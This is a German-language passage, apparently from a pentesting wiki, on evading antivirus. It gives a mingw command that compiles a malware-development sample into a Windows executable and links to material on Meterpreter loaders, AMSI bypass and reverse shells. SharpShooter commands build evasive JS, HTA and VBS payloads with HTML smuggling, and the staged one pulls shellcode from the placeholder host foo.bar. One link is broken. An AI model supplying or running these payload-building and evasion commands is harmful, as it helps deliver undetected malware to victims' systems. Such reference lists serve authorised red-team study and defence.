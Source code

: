 C# Obfuskatorenliste: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++
```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
* [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
* [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
* [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
* [https://github.com/l0ss/Grouper2](ps://github.com/l0ss/Group)
* [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
* [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### Verwendung von Python für den Build-Injektor-Beispiel:

* [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### Andere Werkzeuge
```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```
### Mehr

